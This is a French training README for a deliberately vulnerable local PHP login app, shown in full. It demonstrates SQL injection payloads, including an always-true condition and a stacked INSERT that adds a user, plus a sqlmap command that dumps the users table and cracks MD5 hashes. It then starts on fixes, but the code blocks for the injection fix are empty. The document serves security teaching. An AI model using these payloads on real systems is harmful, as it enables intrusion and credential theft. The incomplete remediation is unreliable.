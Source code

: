# TP - formation sécu n°1

## Déroulement

Suivre les étapes et pratiquer ou suivre la vidéo.

## Démarrage

1. Récupérer le projet et lancer la plateforme

    >```bash
    >    git pull git@github.com:frederictriquet/formation_secu_1.git
    >    docker-compose up
    >```

1. Se connecter à http://localhost:8080/ avec un navigateur.
1. Cliquer sur __reset database__
1. Voir les mauvaises pratiques dans le code :
    - __docker-compose.yml__ et __webapp/webroot/include/db.inc.php__
        - l'utilisateur __root__ est utilisé pour toutes les requêtes à la base de données
    - __webapp/webroot/reset.php__
        - les mots de passe sont stockés __hashés en MD5__
    - __webapp/webroot/sqli/index.php__
        - le champ __login__ du formulaire est utilisé directement dans la requête SQL

## Exploitation de l'injection SQL

Le champ __password__ est volontairement visible.
Les mots de passe se trouvent dans __webapp/webroot/reset.php__

1. Cliquer sur __SQL injection__
1. Tester le formulaire
    - __admin__/__incorrect__ : aucun utilisateur ne correspond
    - __admin__/__password__ : 1 utilisateur correspond

1. Dans le champ __login__, tester :
    > login = `'`

    Il n'est pas utile de saisir de mot de passe.

    Initialement, la requête SQL est :

    >```sql
    >$query  = "SELECT COUNT(*) FROM users WHERE login='$login' AND password='$hash';";
    >```

    La requête SQL envoyée à la base de donnée sera :

    >`SELECT COUNT(*) FROM users WHERE login=''' AND password='d41d8cd98f00b204e9800998ecf8427e';`

    Ce qui provoque une erreur de syntaxe au niveau des 3 quotes qui se suivent.

1. Première exploitation : détourner le fonctionnement du code

    > login = `' or 1=1 --`

    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='' or 1=1 --' AND pass...";
    >--------------------------------------------------|_________|
    >```

    - La quote ferme la première chaîne de caractères
    - `or 1=1` est une condition toujours vraie
    - tout ce qui est après `--` est ignoré (commentaires)

    La requête SQL traitée par la base de donnée est donc :

    >```sql
    >SELECT COUNT(*) FROM users WHERE login='' or 1=1
    >```

    Cela va donc renvoyer le nombre d'utilisateurs présents dans la table __users__ au lieu de ne renvoyer que 0 ou 1 lors d'une utilisation normale.

1. Deuxième exploitation : exécuter une requête arbitraire

    > login = `';INSERT INTO users VALUES (12, 'fred', md5('fred')) --`

    La requête devient alors :

    >```sql
    >$query = "SELECT COUNT(*) FROM users WHERE login='';INSERT INTO users VALUES (12, 'fred', md5('fred')) --' AND pass...";
    >```

    La seconde partie est une seconde requête qui ajoute un utilisateur dans la table __users__.


1. Troisième exploitation : avec l'outil dédié __sqlmap__

    > docker-compose run sqlmap -u "http://web/sqli/" --data "login=someuser&password=letMeIn" --batch --dump

    Cet outil exploite les injections SQL et réussit ici à extraire le contenu et la structure des tables. Il sait déchiffrer les champs comme nos mots de passe hashés en MD5.

        +----+-------+----------------------------------------------+
        | id | login | password                                     |
        +----+-------+----------------------------------------------+
        | 1  | admin | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 2  | alice | 5f4dcc3b5aa765d61d8327deb882cf99 (password)  |
        | 3  | bob   | e99a18c428cb38d5f260853678922e03 (abc123)    |
        | 4  | carol | 8ae1dd156c62f4f0b0b31c29b46f8e48             |
        | 5  | dave  | 437b930db84b8079c2dd804a71936b5f (something) |
        | 12 | fred  | 570a90bfbf8c7eab5dc5d4e26832d5b1 (fred)      |
        +----+-------+----------------------------------------------+

    Le mot de passe un peu plus complexe de l'utilisatrice __carol__ peut être retrouvé grâce à des [rainbow tables](https://en.wikipedia.org/wiki/Rainbow_table) disponibles par exemple chez [Hash Toolkit](https://hashtoolkit.com/).


## Corriger les vulnérabilités du code

1. modifier soi-même le code ou basculer sur la branche __secure__ :

    >```bash
    >git checkout secure
    >```

1. correction du problème de stockage de mots de passe

    - __webapp/webroot/reset.php__, remplacer

        >```php
        >$hash = md5($user[1]);
        >```

        par

        >```php
        >$hash = password_hash($user[1],PASSWORD_DEFAULT);
        >```

    - __webapp/webroot/reset.php__, remplacer

        >```sql
        >password CHAR(32) NOT NULL
        >```

        par

        >```sql
        >password CHAR(64) NOT NULL
        >```

    - __webapp/webroot/sqli/index.php__, remplacer

        >```php
        >
        >```

        par

        >```php
        >
        >```
